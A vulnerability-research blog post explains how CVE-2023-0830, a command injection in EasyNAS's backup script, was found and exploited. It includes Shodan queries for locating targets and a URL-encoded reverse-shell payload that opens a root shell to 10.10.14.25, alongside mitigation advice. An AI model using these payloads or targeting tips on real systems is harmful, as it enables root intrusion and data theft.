 ```yaml
---
title: 'Finding and Exploiting CVE-2023-0830 in EasyNas'
date: '2023-03-18'
tags: ['Vulnerability Research', 'Command Injection', 'CVE', 'EasyNAS', 'Exploit Development', 'Privilege Escalation']
---
```


# Finding and Exploiting CVE-2023-0830 in EasyNas

## Introduction

Recently, I discovered a vulnerability in a backup and restore script used in EasyNAS, a popular open-source network-attached storage solution. The vulnerability (published as [CVE-2023-0830](https://vuldb.com/?id.220950)) allows for arbitrary command execution with root privileges. An attacker can use this to delete system files, steal sensitive data, or gain complete system access.

In this post, I'll show you how I found this vulnerability using Burp Suite and walk through the exploitation process. I'll also show the vulnerable code and explain what makes this such a dangerous flaw.

## Target Identification

Vulnerable EasyNAS instances can be identified by their web interface running on ports 443 (HTTPS) or 80 (HTTP), featuring the "EasyNAS" branding on the login page. Use Shodan with queries like `title:"EasyNAS Login"` or scan for distinctive EasyNAS HTTP headers. This vulnerability affects EasyNAS version 1.1.0 and possibly earlier versions.

## Details of the Vulnerability

The vulnerability exists in the backup and restore script used by EasyNAS. The script is written in Perl and is executed through the web interface. Here's the vulnerable code:

```perl
$rc=system("/usr/bin/sudo /usr/bin/tar cvf $mount_dir/$vol/$file @config_files > /dev/null" );
```

The problem is obvious - the script executes a system command using the `system()` function, and it includes user-controlled input (`$file` and `$vol` variables) without any sanitization. These variables come directly from GET parameters in the web interface, meaning we can inject our own commands.

What makes this vulnerability particularly dangerous is that the command is executed using `sudo`, giving the injected commands root privileges. Since the script itself already runs `tar` with sudo, any command we inject will inherit these elevated permissions.

## Discovery with Burp Suite

Finding this vulnerability was surprisingly simple: I logged into the EasyNAS web interface with valid credentials, enabled Burp Suite's proxy to capture requests, and navigated to the backup feature. In Burp Suite, I noticed a GET request to `/easynas/backup.pl` with several parameters including `name` and `vol`. These parameters appeared to be directly incorporated into system commands without proper sanitization – a classic pattern that often leads to command injection vulnerabilities.

## Technical Exploitation Details

### Command Injection Mechanics

The exploitation leverages the way shell commands are parsed. The Perl script constructs a shell command using the variables `$file` and `$vol` directly in the command. When we inject the pipe character (`|`) into the `$file` variable, it breaks the command syntax and allows execution of a secondary command.

1. The Perl script constructs a shell command like:
   ```
   /usr/bin/sudo /usr/bin/tar cvf $mount_dir/$vol/$file @config_files > /dev/null
   ```

2. When we inject the pipe character (`|`) into the `$file` variable, it breaks the command syntax and allows execution of a secondary command. The full injected parameter structure:
   ```
   |command|command||a #
   ```

3. Breaking this down:
   - The first `|` terminates the original command and starts a new one
   - The second `|` pipes the output of the first command to the next command
   - `||a` creates a fallback command that will run if the previous command fails (`a` is just a non-existent command)
   - `#` comments out the remainder of the original command to prevent syntax errors

### Privilege Escalation Mechanism

This vulnerability provides a direct privilege escalation path because the web interface runs the backup script with the permissions of the web server user, but the script uses `sudo` to execute the tar command without requiring a password. This sudo configuration allows the web server user to run this specific tar command with root privileges. When we inject our commands using the pipe character, they inherit the sudo context and execute with root privileges, even though they're technically separate from the original tar command.

## Exploitation Process Using Burp Suite

I exploited the vulnerability by intercepting a legitimate backup request in Burp Suite that looked like:
```
GET /easynas/backup.pl?action=backup&menu=none&.submit=Backup&name=backup_20230209&vol=datastore HTTP/1.1
Host: easynas.local
Cookie: session_id=abcdef123456
```

The `name` parameter contained a filename used in the backup command, making it ideal for command injection. I modified the request in Burp Suite's Repeater tab, changing the `name` parameter to include command injection characters:
```
GET /easynas/backup.pl?action=backup&menu=none&.submit=Backup&name=%7cwhoami%7c%7ca%20%23&vol=datastore HTTP/1.1
```

When sent, the server response indicated successful command execution with root privileges. For a practical demonstration, I developed a final payload that establishes a reverse shell with root privileges:
```
GET /easynas/backup.pl?action=backup&menu=none&.submit=Backup&name=%7c/bin/bash%20%7c%20bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.25/443%200%3E%261%27%7c%7ca%20%23&vol=datastore HTTP/1.1
```

This payload uses URL encoding for special characters and works by breaking out of the original command, executing bash, piping to another bash instance that runs the reverse shell command, all with inherited root privileges from the sudo context of the vulnerable script.

## Real-World Attack Scenario

In a real attack, an adversary would identify an EasyNAS instance through network scanning, authenticate using common credentials, and deploy the exploit to establish a reverse shell. With root access, they could exfiltrate all data stored on the NAS, install persistence mechanisms, pivot to other internal systems, or modify system configurations to maintain access. This vulnerability is particularly concerning for internet-exposed devices, as attackers could gain complete control of the storage system with minimal effort.

## Mitigation

To fix this vulnerability, implement strict input validation with a whitelist approach, use prepared statements or parameterized APIs where possible, avoid using sudo in scripts (especially for web applications), implement proper privilege separation, and apply the principle of least privilege throughout the application. The fix could be as simple as using the Perl module CGI.pm's built-in param method to sanitize user input, or enabling Taint mode to treat all user input as potentially dangerous.

## Conclusion

This vulnerability in EasyNAS shows how even seemingly minor implementation details can lead to critical security issues. What makes this vulnerability particularly interesting is how easily it was discovered using basic penetration testing tools, yet it was overlooked during development.

The lesson here is that proper input validation is critical, especially when user input is passed to system commands. Even in authenticated areas of applications, user input should never be trusted.

Keep your systems updated and be aware of vulnerabilities, even in open-source software like EasyNAS. Take the necessary steps to protect your systems - especially network storage devices that often contain your most sensitive data.

## References

- [EasyNAS 1.1.0 — Authenticated OS Command Injection Exploit (github.com)](https://www.exploit-db.com/exploits/51266)
- [CVE-2023-0830](https://www.cve.org/CVERecord?id=CVE-2023-0830)
- [VulDB Entry 220950](https://vuldb.com/?id.220950) 

---

*Disclaimer: This article is provided for educational purposes only. The techniques described should only be used in authorized environments and security research contexts. Always follow responsible disclosure practices and operate within legal and ethical boundaries.*
